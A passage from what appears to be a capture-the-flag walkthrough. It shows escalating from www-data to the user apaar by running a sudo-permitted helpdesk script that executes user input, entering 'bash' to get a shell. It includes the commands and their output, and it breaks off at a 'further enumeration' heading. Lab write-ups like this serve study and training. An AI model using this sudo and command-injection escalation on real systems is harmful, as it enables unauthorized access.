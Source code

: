 typing `sudo -l` gave this output.

```shell
www-data@ubuntu:/var/www$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh

```

we can execute a script as the user `apaar`

the content of the script:

```bash
www-data@ubuntu:/home/apaar$ cat .helpline.sh
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

we can exploit this script very easily via typing `bash` as the message input.

```shell
www-data@ubuntu:/home/apaar$ sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: asd
Hello user! I am asd,  Please enter your message: bash
ls
local.txt
whoami
apaar
```

after stabilizing the shell i got the first flag.

![[Pasted image 20221019091841.png]]

## further enumeration
